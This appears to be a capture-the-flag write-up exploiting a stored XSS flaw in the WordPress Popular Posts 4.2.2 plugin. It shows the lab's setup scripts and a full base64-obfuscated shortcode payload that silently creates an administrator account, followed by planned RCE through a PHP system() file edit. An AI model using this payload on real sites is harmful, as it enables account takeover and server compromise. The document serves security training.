



# Such popular, much wow
> I heard you like web challenges with sourcecode provided. Lets find a simple 0-day in an old and vulnerable plugin.

> Take a look at the entry-point.sh script. You'll find helpful credentials in there.

## About the Challenge
We need to find a 0day on a outdated plugins called `wordpress-popular-posts` version 4.2.2

## How to Solve?
Let's check the source code first



There are an interesting python script called `firefox-script.py` and a bash script called `entry-point.sh`. Im gonna check the bash script first

```bash
#!/bin/bash
echo "Going to sleep for 20 seconds to wait for mysqld to initialize"

sleep 20

cd /var/www/html/

while ! mysqladmin ping -h"$WORDPRESS_DB_HOST" -p$WORDPRESS_DB_PASSWORD -u$WORDPRESS_DB_USER  --silent; do
    echo "mysql not up yet. Waiting..."
    sleep 1
done

php wp-cli.phar core download --version=5.9.3 
php wp-cli.phar config create --dbname=$WORDPRESS_DB_NAME --dbuser=$WORDPRESS_DB_USER --dbpass=$WORDPRESS_DB_PASSWORD --dbhost=$WORDPRESS_DB_HOST --skip-check

# On remote:
#URL=https://$SESSIONID-1024-diff-the-patch.$CHALLENGE_DOMAIN:$WORDPRESS_PORT

# On local (docker-compose)
URL=http://localhost:1024

php wp-cli.phar core install --allow-root --url=$URL --title=Diff-the-patch --admin_user=admin --admin_password=$ADMINPW --admin_email=info@example.com


php wp-cli.phar --allow-root user create bob-the-author bob@cscg.live --role=author --user_pass=s3cur3PW
php wp-cli.phar --allow-root plugin install https://github.com/cabrerahector/wordpress-popular-posts/archive/refs/tags/4.2.2.zip --activate

sed -i '2i define( "FORCE_SSL_ADMIN", false );' /var/www/html/wp-config.php

# On remote
#sed -i '2i $_SERVER["HTTPS"]="on";' /var/www/html/wp-config.php
# On local
sed -i '2i $_SERVER["HTTPS"]="off";' /var/www/html/wp-config.php

apache2-foreground &

python3 /usr/bin/firefox-script.py $URL $ADMINPW
```

This script sets up a WordPress website. It waits for the database to be ready, and then downloads WordPress, connects it to the database, and installs the site. It also adds a user (bob-the-author:s3cur3PW), installs a plugin called wordpress-popular-posts, and adjusts some settings. Finally, it starts the web server and opens the site in a web browser using a Python script. Now we are gonna check the python script

```python
base_url = sys.argv[1]
admin_pw = sys.argv[2]

login_url = base_url + "/wp-login.php"
print(f"Base url: {base_url} PW: {admin_pw}") #TODO: Removeme

while True:
    try:
        browser = webdriver.Firefox(options=options)
        # visit other page first to establish proper context for adding cookies
        browser.get(base_url + "/wp-login.php")

        username = browser.find_element(By.ID, "user_login")
        password = browser.find_element(By.ID, "user_pass")
        form = browser.find_element(By.ID, "loginform") 
        browser.execute_script(f"arguments[0].setAttribute('action', '{login_url}')", form)
        
        username.send_keys("admin") # add your WordPress UserName
        password.send_keys(admin_pw) # add your WordPress Password

        submitButton = browser.find_element(By.ID,"wp-submit")
        submitButton.click()

        # go brrrrr
        browser.get(base_url + "/")

        resp = requests.get(base_url + "/?rest_route=/wp/v2/posts").json()

        for entry in resp:
             browser.get(entry["link"])

        time.sleep(30)
        browser.close()
```

This code uses Python and web automation to log into a WordPress website using a provided base URL and admin password, then fetches and visits the links of recent posts using a web browser. It repeats this process every 30 seconds until manually stopped.

If we analyze this code, it looks like we need to exploit the plugin using XSS and if we check the Dockerfile, the flag was located in the `/var/www` directory. So, we need to do RCE to read the flag. The flow will probably be like this

1. Create a post with an XSS payload (XSS for creating an admin account)
2. An admin views our post
3. Another admin account is created
4. Change one of the plugin/theme files to `<?php system("cat /var/www/flag.txt")?>`
5. Voilà

Now, let's analayze the plugin. WordPress Popular Posts can be used in three different ways:

1. As a widget
2. As a template tag
3. Via shortcode

Since we only have an author account, we need to place the XSS payload within the shortcode. Here is an example of the shortcode:

```
[wpp range='last7days' freshness=1]
```

Now, let's analyze the code. The vulnerability was located in `public/class-wordpress-popular-posts-public.php`


This line was vulnerable to XSS because of `htmlspecialchars_decode()` PHP function (You can read the detail [here](https://www.php.net/manual/en/function.htmlspecialchars-decode.php)). Now we can input our XSS payload in `header_start` or `header_end` parameter. The final payload will be like this

```
[wpp header='Popular Posts' header_start='&lt;script src=&lt;script&gt;eval(atob(&#039;dmFyIGEgPSBYTUxIdHRwUmVxdWVzdDt2YXIgYiA9IG5ldyBhKCk7dmFyIGMgPSAiL3dwLWFkbWluL3VzZXItbmV3LnBocCI7dmFyIGQgPSAvc2VyIiB2YWx1ZT0iKFteIl0qPykiL2c7Yi5vcGVuKCJHRVQiLCBjLCBmYWxzZSk7Yi5zZW5kKCk7IHZhciBub25jZSA9IGQuZXhlYyhiLnJlc3BvbnNlVGV4dClbMV07YiA9IG5ldyBhKCk7Yi5vcGVuKCJQT1NUIiwgYywgdHJ1ZSk7Yi5zZXRSZXF1ZXN0SGVhZGVyKCJDb250ZW50LVR5cGUiLCAiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIik7Yi5zZW5kKCJhY3Rpb249Y3JlYXRldXNlciZfd3Bub25jZV9jcmVhdGUtdXNlcj0iK25vbmNlKyImdXNlcl9sb2dpbj1hdHRhY2tlciZlbWFpbD1hdHRhY2tlckBzaXRlLmNvbSZwYXNzMT1hdHRhY2tlciZwYXNzMj1hdHRhY2tlciZyb2xlPWFkbWluaXN0cmF0b3IiKTs=&#039;))&lt;/script&gt;']
```



This XSS payload has a function to create a new administrator account when another admin sees my post. Wait for a while, and voilà. Now we need to edit one of the plugin / theme file to `<?php system("cat /var/www/flag.txt")`



```
-
```